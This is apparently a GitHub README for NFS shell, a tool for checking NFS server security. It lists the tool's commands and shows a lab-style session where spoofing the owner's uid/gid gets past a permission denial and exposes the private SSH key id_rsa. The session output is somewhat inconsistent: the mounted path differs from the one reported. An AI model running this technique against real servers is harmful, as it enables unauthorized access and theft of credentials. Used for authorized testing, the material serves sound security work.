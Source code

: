 

# NFS shell
NFS shell that provides user level access to an NFS server, over UDP or TCP, supports source routing and "secure" (privileged port) mounts. It's a useful tool to manually check (or show) security problems after a security scanner has detected them.

Prerequisites
* Linux System

Dependencies

* libreadline-dev libncurses5-dev 

# Help menu: 

```
nfs> help 

host <host> - set remote host name 
uid [<uid> [<secret-key>]] - set remote user id 
gid [<gid>] - set remote group id 
cd [<path>] - change remote working directory 
lcd [<path>] - change local working directory 
cat <filespec> - display remote file 
ls [-l] <filespec> - list remote directory 
get <filespec> - get remote files 
df - file system information 
rm <file> - delete remote file 
ln <file1> <file2> - link file 
mv <file1> <file2> - move file 
mkdir <dir> - make remote directory 
rmdir <dir> - remove remote directory 
chmod <mode> <file> - change mode 
chown <uid>[.<gid>] <file> -  change owner 
put <local-file> [<remote-file>] - put file 
mount [-upTU] [-P port] <path> - mount file system 
umount - umount remote file system 
umountall - umount all remote file systems 
export - show all exported file systems 
dump - show all remote mounted file systems 
status - general status report 
help - this help message 
quit - its all in the name 
bye - good bye 
handle [<handle>] - get/set directory file handle 
mknod <name> [b/c major minor] [p] - make device 
```


# Usage

```
root@kali:/opt/nfsshell# ./nfs
nfs> host 192.168.0.45 
Using a privileged port (1021) 
Open 192.168.0.45 (192.168.0.45) TCP 
nfs> export 
Export list for 192.168.0.45: 
/home/karl               *  
nfs> mount /home/zatiel 
Using a privileged port (1020) 
Mount `/home/karl', TCP, transfer size 65536 bytes. 
nfs> ls -l 
drwxr-xr-x  3     1001  1001      4096  Apr  5  2023  . 
drwxr-xr-x  3     1001  1001      4096  Apr  5  2023  .. 
drwxr-xr-x  3     1001  1001      4096  Apr  5  2023  .bash_history 
drwxr-xr-x  3     1001  1001      4096  Apr  5  2023  .bash_logout 
drwxr-xr-x  3     1001  1001      4096  Apr  5  2023  .bashrc 
drwxr-xr-x  3     1001  1001      4096  Apr  5  2023  .lesshst 
drwxr-xr-x  3     1001  1001      4096  Apr  5  2023  .profile 
drwxr-xr-x  3     1001  1001      4096  Apr  5  2023  .ssh 
nfs> cd .ssh 
nfs> ls 
Readdir failed: Permission denied 
nfs> uid 1001 
nfs> gid 1001 
nfs> ls 
. 
.. 
authorized_keys 
id_rsa 
id_rsa.pub 
user.txt 
nfs>  

```
